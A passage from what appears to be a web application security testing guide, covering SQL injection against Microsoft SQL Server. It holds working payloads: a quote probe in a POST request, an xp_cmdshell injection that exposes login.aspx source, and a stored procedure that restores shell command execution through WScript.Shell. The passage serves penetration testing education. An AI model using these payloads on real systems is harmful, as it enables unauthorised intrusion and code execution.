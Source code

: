 ### Example 3: Testing in a POST Request

SQL Injection, HTTP POST Content: `email=%27&whichSubmit=submit&submit.x=0&submit.y=0`

A complete post example (`https://vulnerable.web.app/forgotpass.asp`):

```txt
POST /forgotpass.asp HTTP/1.1
Host: vulnerable.web.app
[...]
Referer: https://vulnerable.web.app/forgotpass.asp
Content-Type: application/x-www-form-urlencoded
Content-Length: 50

email=%27&whichSubmit=submit&submit.x=0&submit.y=0
```

The error message obtained when a `'` (single quote) character is entered at the email field is:

```txt
Microsoft OLE DB Provider for SQL Server error '80040e14'
Unclosed quotation mark before the character string '' '.
/forgotpass.asp, line 15
```

### Example 4: Yet Another (Useful) GET Example

Obtaining the application's source code

`a' ; master.dbo.xp_cmdshell ' copy c:\inetpub\wwwroot\login.aspx c:\inetpub\wwwroot\login.txt';--`

### Example 5: Custom `xp_cmdshell`

All books and papers describing the security best practices for SQL Server recommend disabling `xp_cmdshell` in SQL Server 2000 (in SQL Server 2005 it is disabled by default). However, if we have sysadmin rights (natively or by bruteforcing the sysadmin password, see below), we can often bypass this limitation.

On SQL Server 2000:

- If `xp_cmdshell` has been disabled with `sp_dropextendedproc`, we can simply inject the following code:

`sp_addextendedproc 'xp_cmdshell','xp_log70.dll'`

- If the previous code does not work, it means that the `xp_log70.dll` has been moved or deleted. In this case we need to inject the following code:

```sql
CREATE PROCEDURE xp_cmdshell(@cmd varchar(255), @Wait int = 0) AS
    DECLARE @result int, @OLEResult int, @RunResult int
    DECLARE @ShellID int
    EXECUTE @OLEResult = sp_OACreate 'WScript.Shell', @ShellID OUT
    IF @OLEResult <> 0 SELECT @result = @OLEResult
    IF @OLEResult <> 0 RAISERROR ('CreateObject %0X', 14, 1, @OLEResult)
    EXECUTE @OLEResult = sp_OAMethod @ShellID, 'Run', Null, @cmd, 0, @Wait
    IF @OLEResult <> 0 SELECT @result = @OLEResult
    IF @OLEResult <> 0 RAISERROR ('Run %0X', 14, 1, @OLEResult)
    EXECUTE @OLEResult = sp_OADestroy @ShellID
    return @result
```
